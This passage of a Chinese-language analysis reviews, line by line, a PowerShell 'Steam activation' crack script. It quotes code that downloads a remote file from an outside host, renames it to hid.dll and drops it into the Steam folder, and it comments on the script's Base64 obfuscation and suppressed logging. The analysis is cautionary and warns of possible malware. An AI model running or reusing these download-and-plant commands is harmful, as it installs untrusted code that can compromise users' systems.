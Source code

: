 尝试删除steam目录下的`version.dll` `user32.dll` `steam.cfg` `hid.dll`文件,若删除失败则输出红色提示`[异常残留请按照路径删除文件]->`与对应路径要求用户主动删除,并结束脚本

分析:依旧采取了`Out-Null`与Base64编码来抑制日志输出与防止直接阅读输出内容



第101~112行

```powershell
    $downApi = "http://1.steam.work/api/integral/pwsDownFile"
    
    irm -Uri $downApi -Headers @{ Referer = "libary" } -OutFile $d -ErrorAction Stop
    $newFilePath = [System.IO.Path]::ChangeExtension($d, ".dll")
    Rename-Item -Path $d -NewName $newFilePath
    
    Write-Host "[Result->1          OK]" -ForegroundColor:green
    $d = $localPath + "/localData.vdf"
    irm -Uri $downApi -Headers @{ Referer = "localData.vdf" } -OutFile $d -ErrorAction Stop
    Write-Host "[Result->2          OK]" -ForegroundColor:green
    
    Start-Sleep 1
```

通过不同的请求头来向链接请求不同的文件,在stema路径中下载第一个文件后为其添加`.dll`后缀并输出绿色成功信息,随后下载第二个文件并输出绿色成功信息,最终下载的文件即为仓库中的`hid.dll` `localData.vdf`**(高危操作!)**

最后等待1秒

分析:从云端下载特别制作的steam破解文件,来实现绕过G胖验证机制激活游戏的功能,可能含有病毒

`hid.dll`的请求头说不定还是拼错的`libary`?`library`?

> `hid.dll`是微软Windows操作系统中管理HID（人机接口设备）(也就是键鼠类的设备)的动态链接库文件,默认优先使用软件自带的文件,若软件没有该文件,则使用Windows默认的文件
>
> 如果该文件遭到特殊篡改,可能导致的后果包括但不限于`应用程序无法启动`、`输入设备失效`、`系统蓝屏等异常`



第114行

```powershell
    Start steam://
```

启动steam,没什么好说的



第116~119行

```powershell
    $TextShow = [System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String("W+i/nuaOpeacjeWZqOaIkOWKn+WcqFN0ZWFt5YWl5r+A5rS7IDPnp5LlkI7oh6pd"))
    Write-Host "$TextShow" -ForegroundColor:green
    
    Start-Sleep 3
```

输出绿色提示`[连接服器成功在Steam入激活 3秒后自]`并等待3秒

分析:依旧是Base64编码,但是这个解码结果确实不像是句子
